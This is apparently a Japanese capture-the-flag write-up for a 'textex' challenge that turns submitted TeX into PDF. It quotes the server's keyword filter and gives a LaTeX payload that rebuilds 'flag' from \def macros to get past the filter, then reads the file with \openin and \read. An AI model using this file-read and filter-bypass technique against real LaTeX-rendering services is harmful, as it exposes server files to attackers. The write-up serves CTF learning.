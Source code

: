 # textex

入力したtexをpdfにしてくれるっぽい

tex exploitとかで調べたら[このサイト](https://0day.work/hacking-with-latex/)が出てきた

ひとまず`requirements.txt`が表示できたのでflagも同じように表示できそう

```latex
\input{requirements.txt}
```

しかしながらflagが含まれていると無効化されてしまうことがソースコードからわかる

```python
# No flag !!!!
if "flag" in tex_code.lower():
    tex_code = ""
```

以下チームメイトがsolve

```tex
\def \g {g}
\def \f {fla\g}

\documentclass{article}

\begin{document}

\newread\file
\openin\file=\f
\read\file to\fileline
\detokenize\expandafter{\fileline}
\closein\file

\end{document}
```

`\def`を用いてflagをバイパスすること、flagの中の`_`がエラーになってしまうらしいので無効化しているらしい

チームメイトが天才でした
